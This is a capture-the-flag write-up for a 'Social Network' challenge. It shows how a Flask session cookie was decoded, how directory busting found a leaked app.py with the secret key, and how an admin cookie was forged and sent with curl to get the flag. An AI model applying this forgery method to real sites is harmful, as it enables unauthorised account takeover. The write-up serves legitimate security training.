

# Social Network

Hi Expert,

the application running on `http://78.128.216.18:65181` was probably some kind of social network. Get access to the system and export any valuable data.

Good Luck!

---

The page is just a very simple login form. When entering any credentials, we receive
`invalid credentials`. The error messages is stored in a cookie:
```
Set-Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsImludmFsaWQgY3JlZGVudGlhbHMiXX1dLCJ1c2VybmFtZSI6bnVsbH0.YW5UKw.p6vSskXDRZ_Y1jV9t27vw_0CpWg; HttpOnly; Path=/
```

Decoding the first part:
```
{"_flashes":[{" t":["message","invalid credentials"]}],"username":null}
```

A quick Google search tells us this is about [Flask flash messaging](https://flask.palletsprojects.com/en/2.0.x/patterns/flashing/).

The idea is simple, change the username from `null` to `admin`. However, the issue is that
the cookie is cryptographically signed. At this point, I took a hint:
> It will be useful to find and download the application.

Ok, let's try [dirb](https://www.kali.org/tools/dirb/) (directory busting):
```
$ dirb http://78.128.216.18:65181/
..

GENERATED WORDS: 4612

---- Scanning URL: http://78.128.216.18:65181/ ----
+ http://78.128.216.18:65181/login (CODE:405|SIZE:178)
+ http://78.128.216.18:65181/logout (CODE:302|SIZE:208)
+ http://78.128.216.18:65181/server-status (CODE:403|SIZE:281)
  ==> DIRECTORY: http://78.128.216.18:65181/web/

---- Entering directory: http://78.128.216.18:65181/web/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon Oct 18 21:17:04 2021
DOWNLOADED: 4612 - FOUND: 3
```

That looks good. There is listable folder `web`.



[app.py](app.py) contains the secret key:
```
app.secret_key = 'f3cfe9ed8fae309f02079dbf'
```

I used https://github.com/noraj/flask-session-cookie-manager to sign the modified cookie:
```
$ python3 flask_session_cookie_manager3.py encode -s 'f3cfe9ed8fae309f02079dbf' -t '{"username":"admin"}'
eyJ1c2VybmFtZSI6ImFkbWluIn0.YW3VlA.bSKusGYMPMBiCH-RTjM0nSpGrw4
```

You must remove `_flashes:` from the cookie, otherwise the server responds with 500.

Finally, send the cookie and grab the flag:
```
$ curl -H 'Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.YW3VlA.bSKusGYMPMBiCH-RTjM0nSpGrw4' http://78.128.216.18:65181
<html>
<body>


<h1>My superprofile</h1>


        <a href="/logout">logout</a>
        <p>
        <pre>FLAG{r4Kt-Ws0C-J3b3-2EJg}</pre>


</body>
</html>
```